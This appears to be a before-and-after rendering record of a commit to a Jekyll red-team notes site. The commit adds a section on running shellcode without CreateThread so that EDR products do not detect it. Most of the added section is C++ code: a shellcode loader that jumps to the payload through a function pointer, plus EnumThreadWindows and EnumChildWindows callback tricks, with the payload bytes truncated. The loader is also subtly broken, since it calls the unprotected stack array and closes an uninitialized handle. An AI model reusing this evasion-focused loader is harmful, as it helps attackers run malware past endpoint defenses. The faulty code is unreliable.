

Before and after one commit to benjugat/rtnotes, a Jekyll site: the page built from _docs/malware/code-injection/intro.md, in a window 1280 px wide and 1400 px high, scrolled down 4951 px. Shown: the whole window at 97% size, without its empty margins (343-1231 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 5322 px from its top, so only the background shows below that.

Commit message:
direct function pointer

````diff
--- a/_docs/malware/code-injection/intro.md
+++ b/_docs/malware/code-injection/intro.md
@@ -174,3 +174,44 @@ Check *Object Enumeration*-> *Process Enumeration* and *Thread Enumeration* sect
 
 
 # Alternatives to CreateThread
+
+There are some alternatives for `CreateThread`. Creating threads can be easily detected by an EDR, try something different.
+
+* [https://github.com/aahmad097/AlternativeShellcodeExec](https://github.com/aahmad097/AlternativeShellcodeExec)
+
+> **Note:** Since we are not creating a new Thread, when our payload finishes it will hang out the main program. Be careful if you are injecting on a remote process.
+
+## Direct Function Pointer
+
+```cpp
+#include <Windows.h>
+#include <stdio.h>
+
+int main(int argc, char ** argv) {
+
+    LPVOID pexec;
+    HANDLE hThread;
+    BOOL rv;
+    DWORD oldprotect;
+
+    char payload[] = {0xfc, 0x48, 0x83,...};
+
+    pexec = VirtualAlloc(0, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
+    RtlMoveMemory(pexec, payload, sizeof(payload));
+    rv = VirtualProtect(pexec, sizeof(payload), PAGE_EXECUTE_READ, &oldprotect);
+    if(rv){
+        void (*go)() =(void(*)()) payload; go();
+    }
+    CloseHandle(hThread);
+    return 0;
+}
+```
+
+## WinAPIs
+
+There are other WinAPIs  functions:
+
+```cpp
+EnumThreadWindows(0, (WNDENUMPROC) shellcode, 0);
+EnumChildWindows((HWND) NULL, (WNDENUMPROC) shellcode, NULL);
+```
````
